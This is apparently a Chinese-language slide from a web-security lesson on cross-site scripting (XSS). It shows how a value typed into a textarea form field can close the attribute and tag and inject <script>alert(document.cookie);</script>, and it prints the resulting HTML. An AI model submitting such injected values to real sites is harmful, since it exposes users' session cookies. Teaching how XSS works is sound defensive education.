

# XSS（跨站脚本攻击）
4. 页面数据通过form表单提交，
例：<textarea id="memo" name="memo"  value=”测试textarea”>

页面输入内容是通过标签输入值存在的，将输入修改为：”/><script>alert(document.cookie);</script>      先闭合value=““ 属性及textarea标签，后面紧跟恶意脚本。更改后结果为
<textarea id="memo" name="memo"  value=” ”/><script>alert(document.cookie);</script>